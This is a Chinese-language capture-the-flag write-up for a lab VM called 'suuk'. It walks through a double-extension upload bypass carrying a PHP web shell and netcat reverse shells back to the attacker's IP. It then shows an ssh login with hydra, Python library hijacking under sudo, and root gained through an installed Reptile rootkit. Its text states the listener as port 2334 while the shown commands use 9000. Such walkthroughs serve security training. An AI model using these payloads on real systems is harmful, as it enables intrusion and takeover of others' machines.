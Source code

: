 做virtualBox的端口映射吧

|   |   |   |
|---|---|---|
|suuk|medim|文件白名单绕过、反弹shell、$paht环境变量更改、python 库劫持提权、Reptile提权、sandfly-processdecloak使用|
# 服务扫描

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p 22,80 192.168.18.238

```
# GetSHell
访问80http://192.168.18.238/
文件上传，白名单限制,只允许图片格式,使用1.php.jpg的方式绕过文件上传，原因可能是因为后端只取点后的第一个后缀进行解析。
```css
POST /upload.php HTTP/1.1

Host: 192.168.18.238

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: multipart/form-data; boundary=---------------------------58834982911681499741555270890

Content-Length: 365

Origin: http://192.168.18.238

Connection: close

Referer: http://192.168.18.238/

Upgrade-Insecure-Requests: 1



-----------------------------58834982911681499741555270890

Content-Disposition: form-data; name="photo"; filename="1.php.jpg"

Content-Type: image/png



<?php system($_GET['cmd']);?>

-----------------------------58834982911681499741555270890

Content-Disposition: form-data; name="submit"



Upload

-----------------------------58834982911681499741555270890--
```

访问http://192.168.18.238/upload/1.php.jpg?cmd=id

反弹shell
```css
http://192.168.18.238/upload/1.php.jpg?cmd=nc%20-e%20/bin/bash%20192.168.44.128%209001


┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [192.168.44.128] from (UNKNOWN) [192.168.44.10] 4854
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
script /dev/null -c bash
Script started, file is /dev/null
www-data@kuus:/var/www/html/upload$ 

```

# 提权
tignasse 账号下有个.pass.txt 文件，但是经过测试并没有用
尝试常规的sudo\suid\内核\任务计划\进程分析手段、爆破了一段时间之后,也没结果。实在不想浪费时间了，看了别人的writeup，才知道。这里密码另有隐情！
```c
www-data@kuus:/home$ ls
ls
mister_b  tignasse

www-data@kuus:/home/tignasse$ more .pass.txt
more .pass.txt
716n4553
www-data@kuus:/home/tignasse$ cat .pass.txt
cat .pass.txt
Try harder !

```

hydra
```c
hydra -l tignasse -p 716n4553 ssh://192.168.18.238

[22][ssh] host: 192.168.18.238   login: tignasse   password: 716n4553
```

ssh
```c
┌──(kali㉿kali)-[~]
└─$ sudo ssh tignasse@192.168.18.238

tignasse@kuus:~$ sudo -l
    (mister_b) NOPASSWD: /usr/bin/python /opt/games/game.py

```
tignasse 用户下，可以看到mister_b 用户有个特权脚本
game.py文件由用户mister_b所有，它导入3 个库。可以看到导入的库使用了可能被滥用的相对路径。
1、我们在/opt/games内创建一个名为random.py的文件，其中包含以下内容：
```
import os 
os.system("nc -e /bin/bash 192.168.44.128 9000")
```
2.、将/opt/games添加到PATH：
通过 python 库劫持进行的权限升级，因为 python 会搜索它导入的库，这些库通常是 PATH 中第一个的库，这就是我们在PATH之前添加/opt/games的原因。
3、最后我们使用nc 监听 2334端口，然后使用sudo 执行该脚本后，成功获取mister_b权限

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [192.168.44.128] from (UNKNOWN) [192.168.44.10] 4315
id
uid=1001(mister_b) gid=1001(mister_b) groups=1001(mister_b)
script /dev/null -c bash
Script started, file is /dev/null


mister_b@kuus:~$ cat user.txt
cat user.txt
Ciphura

```

历史记录发现执行了一个二进制文件
```c
mister_b@kuus:~$ cat .bash_history
cat .bash_history
ps -aux |grep root
ss -altp
sudo -l
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
./sandfly-processdecloak
exit

```
sandfly-processdecloak是一个实用程序，用于快速扫描被常见和不常见的可加载内核模块隐形 Rootkit 隐藏的 Linux 进程 ID (PID)，并将其隐藏起来，使它们可见。比如：Diamorphine, Reptile and variants

编译了一个上传上去执行并没有看到隐藏进程，后面找了一下reptile项目，发现reptile 文件夹也是隐藏的。

https://github.com/f0rb1dd3n/Reptile/wiki/Local-Usage

尝试执行如下命令，发现直接提取到root，www-data 权限也是可以直接提取到root

```
/reptile/reptile_cmd root
```